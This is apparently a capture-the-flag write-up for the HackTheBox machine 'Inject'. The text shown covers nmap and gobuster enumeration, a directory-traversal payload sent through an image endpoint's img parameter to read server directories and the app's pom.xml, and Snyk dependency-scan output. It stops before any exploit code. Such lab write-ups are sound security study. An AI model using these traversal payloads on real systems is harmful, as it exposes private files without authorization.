










Inject is an Easy Difficulty Linux machine featuring a website with file upload functionality vulnerable to Local File Inclusion (LFI). By exploiting the LFI vulnerability, files on the system can be enumerated, revealing that the web application uses a specific version of the `Spring-Cloud-Function-Web` module susceptible to `CVE-2022-22963`. Exploiting this vulnerability grants an initial foothold as the frank user. Lateral movement is achieved by further file enumeration, which discloses a plain text password for phil. A cronjob running on the machine can then be exploited to execute a malicious Ansible playbook, ultimately obtaining a reverse shell as the `root` user.

## Enumeration

I start my enumeration with `nmap` which scans all ports on the target machine.

```bash
$ nmap -p- --min-rate 10000 10.10.11.204

Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 22:01 CEST
Nmap scan report for 10.10.11.204
Host is up (0.023s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.57 seconds
```

It finds two open TCP ports, SSH (22) and HTTP (8080):

```bash
$ nmap -p 22,8080 -sCV 10.10.11.204 -o 2_nmap_deep

Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 22:01 CEST
Nmap scan report for 10.10.11.204
Host is up (0.028s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.96 seconds
```

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-server) version, the host is likely running Ubuntu 20.04 focal. Port 8080 is also open, but Nmap is having difficulties identifying the service running behind this port. It’s a web server, so I can open it in Firefox by browsing to `http://10.10.11.204:8080`.

## The webservice

When the request finishes loading, I get presented with the following web page. Seems like I’m dealing with some storage provider. I start a gobuster scan in the background (`gobuster dir -u http://10.10.11.204:8080/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -o 4_gobuster_root`) while I start browsing around and discover a couple of interesting pages.



Navigating to the Blogs page (`/blogs`), it lists three blog posts. But none of them seems to be going anywhere.



Going to the Registration page (`/register`) shows an “Under Construction banner.



At the top right of the Home page, there’s an upload link, which goes to `/upload`:



Before diving into this upload functionality, I see my gobuster scan has finished and came back with the following results:

```bash
$ gobuster dir -u http://10.10.11.204:8080/  -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt  -o 4_gobuster_root
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.204:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/06 22:16:47 Starting gobuster in directory enumeration mode
===============================================================
/register             (Status: 200) [Size: 5654]
/error                (Status: 500) [Size: 106]
/upload               (Status: 200) [Size: 1857]
/blogs                (Status: 200) [Size: 5371]
/environment          (Status: 500) [Size: 712]
/show_image           (Status: 400) [Size: 194]
Progress: 42994 / 43008 (99.97%)
===============================================================
2023/07/06 22:20:39 Finished
===============================================================
```

One interesting result I didn’t bump into during my manual recon is the `/show_image` endpoint, which returns a 400 (Bad Request). Sending a request with `curl` reveals how I should use the endpoint:

```bash
$ curl http://10.10.11.204:8080/show_image

{"timestamp":"2023-07-06T20:28:29.549+00:00","status":400,"error":"Bad Request","message":"Required request parameter 'img' for method parameter type String is not present","path":"/show_image"}
```

It seems I just need to add an `img` parameter to the query string. Before diving into this I decide to quickly play around with the upload functionality by uploading a small plain text fil:


That doesn’t seem to work, but when I give it an actual image, it returns a link to that image.The link goes to the same endpoint I discovered via burp just earlier `/show_image?img=[image file name]` .



While navigating to the image I proxy the request through BurpSuite so I can have a look at the response headers. But that doesn’t seem to reveal anything new.


## Frankly I need a shell

While navigating to the image endpoint in burp I can see that the uploaded image gets returned. Given the `img` parameter takes a file I decide to test for LFI. Browsing around on [hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion) the first payload I can find on the website is `../../../../../`. I send the request to the repeater and modify the `img` parameter to the LFI payload.



This returns a directory confirming my assumption that the endpoint is vulnerable to a LFI. If I had to take a guess this returned the directory listing of what seems to be the `/var` directory. Changing the payload to `../../../../../../home` I discover 2 different users on the system:

- fran
- phil

At this point given it’s a CTF I decided to immediately try my luck and grab the `user.txt` without going for a shell first. Sending requests to both home folders I discover that the `user.txt` is in phils home folder. But trying to grab the flag I get an empty response.



This means I probably don’t have enough permissions to read the file from the user that is currently running the web process. So I decided to focus on the web app itself, I got access to the `/var/www` folder, so I can read the source code and maybe that can lead me to code execution or a shell on the box.



Seems there are 2 folder, I decide to look at `/var/www/html` first but that folder turns up empty. So it either doesn’t contain any files or I don’t have permissions again. Trying my luck with the `WebApp` folder I get the following listing.



The file that immediately draws my attention is `HELP.md`, which returns the following:

```txt
HTTP/1.1 200
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 1414
Date: Thu, 06 Jul 2023 21:04:59 GMT
Connection: close

# Getting Started

### Reference Documentation
For further reference, please consider the following sections:

* [Official Apache Maven documentation](https://maven.apache.org/guides/index.html)
* [Spring Boot Maven Plugin Reference Guide](https://docs.spring.io/spring-boot/docs/2.6.6/maven-plugin/reference/html/)
* [Create an OCI image](https://docs.spring.io/spring-boot/docs/2.6.6/maven-plugin/reference/html/#build-image)
* [Spring Boot DevTools](https://docs.spring.io/spring-boot/docs/2.6.6/reference/htmlsingle/#using-boot-devtools)
* [Spring Web](https://docs.spring.io/spring-boot/docs/2.6.6/reference/htmlsingle/#boot-features-developing-web-applications)
* [Thymeleaf](https://docs.spring.io/spring-boot/docs/2.6.6/reference/htmlsingle/#boot-features-spring-mvc-template-engines)
* [Spring Data JPA](https://docs.spring.io/spring-boot/docs/2.6.6/reference/htmlsingle/#boot-features-jpa-and-spring-data)

### Guides
The following guides illustrate how to use some features concretely:

* [Building a RESTful Web Service](https://spring.io/guides/gs/rest-service/)
* [Serving Web Content with Spring MVC](https://spring.io/guides/gs/serving-web-content/)
* [Building REST services with Spring](https://spring.io/guides/tutorials/bookmarks/)
* [Handling Form Submission](https://spring.io/guides/gs/handling-form-submission/)
* [Accessing Data with JPA](https://spring.io/guides/gs/accessing-data-jpa/)
```

This reveals I’m dealing with a spring boot application, it has been ages since I professionally used Java or spring for that matter. What I can remember is that `pom.xml` is the configuration file for maven and helps manage dependencies and build processes. It basically contains information about the project such as its name, version, and dependencies on other software
libraries. In this case I can leverage this `pom.xml` to get an overview of the apps dependencies and check if any of them are out of date and contain any vulnerabilities.

Downloading the `pom.xml` file via the LFI vulnerability reveals the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

Copying the file to my local machine I can now use a vulnerability scanner to check for outdated packages. In this case I use the [Snyk](https://snyk.io/) command line tool to start the scan. At the first try it returned the following error for me:

```bash
$ snyk test
Child process failed with exit code: 127.
Run in debug mode (-d) to see STDERR and STDOUT.
STDERR:
/bin/sh: 1: mvn: not found

Please make sure that Apache Maven Dependency Plugin version 2.2 or above is installed, and that `mvn dependency:tree -DoutputType=dot --batch-mode --non-recursive --file="pom.xml"` executes successfully on this project.

If the problem persists, collect the output of `DEBUG=* mvn dependency:tree -DoutputType=dot --batch-mode --non-recursive --file="pom.xml"` and contact support@snyk.io
```

This was because I didn’t have `Maven` installed on my system. After running `sudo apt install maven` and rerunning the command again I get the following overview

```bash
Tested 50 dependencies for known issues, found 24 issues, 24 vulnerable paths.

Issues to fix by upgrading:

  Upgrade org.springframework.boot:spring-boot-devtools@2.6.5 to org.springframework.boot:spring-boot-devtools@2.6.15 to fix
  ✗ Denial of Service (DoS) [High Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKBOOT-5564390] in org.springframework.boot:spring-boot-autoconfigure@2.6.5
    introduced by org.springframework.boot:spring-boot-devtools@2.6.5 > org.springframework.boot:spring-boot-autoconfigure@2.6.5

  Upgrade org.springframework.boot:spring-boot-starter-thymeleaf@2.6.5 to org.springframework.boot:spring-boot-starter-thymeleaf@3.0.0 to fix
  ✗ Stack-based Buffer Overflow [Low Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGYAML-3016888] in org.yaml:snakeyaml@1.29
    introduced by org.springframework.boot:spring-boot-starter-thymeleaf@2.6.5 > org.springframework.boot:spring-boot-starter@2.6.5 > org.yaml:snakeyaml@1.29
  ✗ Stack-based Buffer Overflow [Low Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGYAML-3016889] in org.yaml:snakeyaml@1.29
    introduced by org.springframework.boot:spring-boot-starter-thymeleaf@2.6.5 > org.springframework.boot:spring-boot-starter@2.6.5 > org.yaml:snakeyaml@1.29
  ✗ Stack-based Buffer Overflow [Low Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGYAML-3113851] in org.yaml:snakeyaml@1.29
    introduced by org.springframework.boot:spring-boot-starter-thymeleaf@2.6.5 > org.springframework.boot:spring-boot-starter@2.6.5 > org.yaml:snakeyaml@1.29
  ✗ Stack-based Buffer Overflow [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGYAML-3016891] in org.yaml:snakeyaml@1.29
    introduced by org.springframework.boot:spring-boot-starter-thymeleaf@2.6.5 > org.springframework.boot:spring-boot-starter@2.6.5 > org.yaml:snakeyaml@1.29
  ✗ Denial of Service (DoS) [High Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGYAML-2806360] in org.yaml:snakeyaml@1.29
    introduced by org.springframework.boot:spring-boot-starter-thymeleaf@2.6.5 > org.springframework.boot:spring-boot-starter@2.6.5 > org.yaml:snakeyaml@1.29

  Upgrade org.springframework.boot:spring-boot-starter-web@2.6.5 to org.springframework.boot:spring-boot-starter-web@2.6.15 to fix
  ✗ HTTP Request Smuggling [Low Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHETOMCATEMBED-3097829] in org.apache.tomcat.embed:tomcat-embed-core@9.0.60
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework.boot:spring-boot-starter-tomcat@2.6.5 > org.apache.tomcat.embed:tomcat-embed-core@9.0.60
  ✗ Information Exposure [Low Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHETOMCATEMBED-3035793] in org.apache.tomcat.embed:tomcat-embed-core@9.0.60
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework.boot:spring-boot-starter-tomcat@2.6.5 > org.apache.tomcat.embed:tomcat-embed-core@9.0.60
  ✗ Improper Handling of Case Sensitivity [Low Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2689634] in org.springframework:spring-context@5.3.17
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework:spring-webmvc@5.3.17 > org.springframework:spring-context@5.3.17
  ✗ Denial of Service (DoS) [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHETOMCATEMBED-3326459] in org.apache.tomcat.embed:tomcat-embed-core@9.0.60
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework.boot:spring-boot-starter-tomcat@2.6.5 > org.apache.tomcat.embed:tomcat-embed-core@9.0.60
  ✗ Unprotected Transport of Credentials [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHETOMCATEMBED-3369687] in org.apache.tomcat.embed:tomcat-embed-core@9.0.60
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework.boot:spring-boot-starter-tomcat@2.6.5 > org.apache.tomcat.embed:tomcat-embed-core@9.0.60
  ✗ Allocation of Resources Without Limits or Throttling [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-3369749] in org.springframework:spring-expression@5.3.17
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework:spring-webmvc@5.3.17 > org.springframework:spring-expression@5.3.17
  ✗ Allocation of Resources Without Limits or Throttling [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-5422217] in org.springframework:spring-expression@5.3.17
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework:spring-webmvc@5.3.17 > org.springframework:spring-expression@5.3.17
  ✗ Denial of Service (DoS) [Medium Severity][https://security.snyk.io/vuln/SNYK-JAVA-COMFASTERXMLJACKSONCORE-3038426] in com.fasterxml.jackson.core:jackson-databind@2.13.2
    introduced by org.springframework.boot:spring-boot-starter-web@2.6.5 > org.springframework.boot:spring-boot-starter-json@2.6.5 > com.fasterxml.jackson.core:jackson-databind@2.13.2
